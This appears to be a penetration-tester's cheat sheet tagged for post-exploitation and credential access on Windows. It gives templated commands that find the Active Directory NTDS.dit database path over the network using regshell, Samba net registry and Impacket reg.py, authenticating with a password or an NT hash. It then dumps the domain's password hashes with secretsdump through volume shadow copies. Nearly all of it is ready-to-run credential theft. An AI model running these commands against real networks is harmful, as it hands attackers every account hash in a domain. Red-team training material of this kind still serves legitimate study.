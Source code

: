 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #staying-off-the-land #windows

## 01 - Enumerate Registry Files

### 1.1 - `regshell`

Authentication syntax.

```
$ regshell -U "[<domain>/]<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>
```

Navigate to the subkey and `print` the information.

```
\> predef HKEY_LOCAL_MACHINE
\HKEY_LOCAL_MACHINE> ck SYSTEM\CurrentControlSet\Services\NTDS\Parameters
\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> info

\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> print "DSA Database file"
```

### 1.2 - NetCommands

```
$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 1.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

## 02 - Extract Shadow File

TODO: Demonstrate using smbclient to download hashes

`$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local`

```
$ secretsdump.py -use-vss "[<domain>/]<username>":"<password>"@<IP>

$ secretsdump.py -use-vss "[<domain>/]<username>"@<IP> -hashes :<nt_hash>
```